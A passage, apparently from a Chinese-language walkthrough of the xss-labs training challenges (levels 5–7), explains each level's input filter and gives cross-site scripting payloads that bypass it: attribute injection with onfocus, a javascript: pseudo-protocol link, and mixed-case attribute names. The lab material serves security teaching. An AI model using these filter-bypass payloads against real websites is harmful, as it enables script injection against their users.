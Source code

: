 `" onfocus=javascript:alert() "`

5.level5第二处过滤了`<script`和`on`字符
![php代码](./xss_fig/xss-labs-level5.png)
使用html元素和`javascript`伪协议绕过，`payload`如下：

`"><a href="javascript:alert();">xss</a><"`

6.level6第二处过滤了很多
![php代码](./xss_fig/xss-labs-level6.png)
可以使用大小写绕过，`payload`如下：

`"><a hRef="javascript:alert();">xss</a><"`

7.level7把输入转成小写字母，而且把许多关键词替换为空
![php代码](./xss_fig/xss-labs-level7.png)
可以利用双写绕过，`payload`如下：
